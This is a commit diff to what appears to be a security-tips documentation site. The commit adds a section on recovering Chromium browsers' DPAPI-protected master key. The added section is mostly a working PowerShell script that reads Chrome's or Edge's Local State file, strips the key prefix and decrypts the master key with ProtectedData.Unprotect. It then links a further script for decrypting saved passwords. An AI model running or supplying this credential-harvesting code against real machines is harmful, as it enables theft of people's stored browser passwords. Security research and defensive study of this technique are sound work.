

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 900 px high, scrolled down 8998 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add Powershell script to unprotect string using DAPI ProtectedData

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -423,3 +423,31 @@ grep ./output_folder "password"
     Write-Host "[" $_.Resource "] " $_.Username ": " $_.Password
 }
 ```
+
+### Unprotect strict using DAPI
+
+Chromium based browsers (Google Chrome, Edge, ...) on Windows use DAPI to encrypt
+the master key within the user session. It's possible to use PowerShell (or the
+Win32API) to recover the master key. With this master key you can decrypt the
+saved passwords from the sqlite database using [this script](./assets/chrome_passwords.py)
+
+```powershell
+Add-Type -AssemblyName System.Security
+
+$chrome_dir = $env:LOCALAPPDATA + "\\Google\\Chrome\\User Data"
+# $chrome_dir = $env:LOCALAPPDATA + "\\Microsoft\\Edge\\User Data"
+$chrome_local_state_path = $chrome_dir + "\\Local State"
+$chrome_default_db_path = $chrome_dir + "\\Default\\Login Data"
+
+# Read the encrypted master key from the config file
+$local_state = Get-Content -Raw -Path $chrome_local_state_path
+$r = $local_state -match '"os_crypt":{"encrypted_key":"(.*?)"},"password_manager":{'
+$raw_master_key = $Matches[1]
+
+# Decrypt the master key
+$raw_master_key = [Convert]::FromBase64String($raw_master_key)
+$master_key = [System.Byte[]]::CreateInstance([System.Byte], $raw_master_key.Length-5)
+For ($i=0; $i -lt $raw_master_key.length-5; $i++) { $master_key[$i] = $raw_master_key[$i+5] }
+$master_key = [System.Security.Cryptography.ProtectedData]::Unprotect($master_key, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
+$master_key_hex = ($master_key | ForEach-Object ToString X2) -join ''
+```
````
Also changed, not shown: docs/assets/chrome_passwords.py (added, +23 -0 lines).
